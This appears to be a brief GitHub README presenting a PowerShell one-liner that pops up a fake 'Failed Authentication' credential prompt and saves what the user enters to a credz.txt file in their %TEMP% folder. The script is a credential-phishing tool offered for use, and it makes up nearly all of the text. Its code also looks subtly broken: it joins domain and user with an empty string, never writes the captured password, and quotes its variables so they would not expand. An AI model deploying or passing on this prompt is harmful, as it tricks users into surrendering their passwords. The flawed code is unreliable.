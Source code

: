 # Prompt for Credentials

Powershell Script to prompt user for credentials and save to User's %TEMP% directory

``powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+''+[Environment]::UserName,[Environment]::UserDomainName); $pass = $cred.getnetworkcredential().password; $user = [Environment]::UserDomainName+''+[Environment]::UserName; echo '$user `n$cred' > $env:TEMP\credz.txt "``
